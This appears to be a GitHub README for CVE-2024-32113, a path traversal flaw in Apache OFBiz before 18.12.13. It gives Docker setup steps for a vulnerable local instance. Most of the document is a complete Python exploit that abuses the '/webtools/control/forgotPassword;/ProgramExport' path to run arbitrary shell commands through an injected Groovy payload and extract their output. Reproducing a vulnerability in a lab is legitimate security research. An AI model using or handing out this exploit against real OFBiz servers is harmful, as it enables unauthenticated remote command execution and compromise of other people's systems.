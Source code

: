 # CVE-2024-32113

## Description

Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') vulnerability in Apache OFBiz.This issue affects Apache OFBiz: before 18.12.13. Users are recommended to upgrade to version 18.12.13, which fixes the issue.

## Setup

1. Clone the repository

    ```bash
    git clone https://github.com/apache/ofbiz-framework.git ofbiz-framework
    ```

2. Change the directory

    ```bash
    cd ofbiz-framework
    ```

3. Checkout to the vulnerable version

    ```bash
    git checkout release18.12.12
    ```

4. Build the project with docker

    ```bash
    docker build --target demo --tag ofbiz-docker .
    ```

5. Run the project

    ```shell
    docker run -it -p 8443:8443 ofbiz-docker
    ```

Now the project is running on `https://localhost:8443`

## Exploit

Using the following payload, we can execute arbitrary commands on the server:

```python
import requests
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def exploit(url, command):
    print("[+] CVE-2024-32113 - Apache OFBiz RCE Exploit")
    print(f"[+] Executing command: {command}")

    headers = {
        'Content-Type': 'application/x-www-form-urlencoded'
    }

    data = f"groovyProgram=throw+new+Exception('{command}'.execute().text);"

    try:
        response = requests.post(url + '/webtools/control/forgotPassword;/ProgramExport', headers=headers, data=data, verify=False)

        if response.status_code == 200:
            print("\n[+] Exploit successful")
            soup = BeautifulSoup(response.text, 'html.parser')
            error_message = soup.find('div', class_='content-messages errorMessage')

            if error_message:
                filtered_output = error_message.get_text().strip()
                print(f"[+] Extracted Payload Response:\n{filtered_output}")
            else:
                print("[-] Couldn't find the expected output in the response.")
        else:
            print("[-] Exploit failed. Status code:", response.status_code)

    except requests.RequestException as e:
        print(f"[-] An error occurred: {e}")

if __name__ == '__main__':
    command = input("Enter the shell command you want to execute: ")
    exploit("https://localhost:8443", command)
```
